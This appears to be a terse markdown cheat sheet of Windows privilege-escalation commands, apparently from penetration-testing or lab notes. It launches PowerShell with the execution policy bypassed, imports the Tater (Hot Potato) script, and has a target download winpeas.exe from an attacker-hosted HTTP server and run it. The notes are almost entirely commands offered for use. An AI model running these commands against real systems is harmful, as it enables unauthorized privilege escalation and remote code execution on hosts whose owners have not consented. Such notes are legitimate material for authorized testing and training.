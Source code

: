 ### Hot Potato
cmd:
- `powershell.exe -nop -ep bypass`
<!-- -->

Powershell
- `Import-Module  C:\Users\User\Desktop\Tools\Tater\Tater.ps1`

### Winpeas.exe
Local:
- `python -m SimpleHTTPServer 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->